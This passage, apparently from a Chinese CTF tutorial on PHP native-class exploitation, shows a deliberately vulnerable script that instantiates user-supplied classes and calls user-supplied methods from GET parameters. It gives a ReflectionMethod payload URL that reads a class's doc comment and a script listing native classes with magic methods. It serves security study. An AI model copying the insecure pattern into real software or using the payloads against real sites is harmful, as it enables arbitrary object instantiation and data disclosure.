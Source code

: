 ```php
    {
        return ++self::$c;
    }

    function t()
    {
        return ++self::$c;
    }
    
}

$rc=$_GET["rc"];    // 传入原生类名
$rb=$_GET["rb"];    // 传入类属性
$ra=$_GET["ra"];    // 传入类属性
$rd=$_GET["rd"];    // 传入类方法
$method= new $rc($ra, $rb);    // 实例化刚才传入的原生类
var_dump($method->$rd());     // 调用类中的方法
```

做法：

```
?rc=ReflectionMethod&ra=User&rb=a&rd=getDocComment
```





## 其他

### PHP所有原生类

#### 列出所有原生类

```php
<?php
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, array(
            '__destruct',
            '__toString',
            '__wakeup',
            '__call',
            '__callStatic',
            '__get',
            '__set',
            '__isset',
            '__unset',
            '__invoke',
            'open',
            '__set_state'    // 可以根据题目环境将指定的方法添加进来, 来遍历存在指定方法的原生类
        ))) {
            print $class . '::' . $method . "\n";
        }
    }
}

```
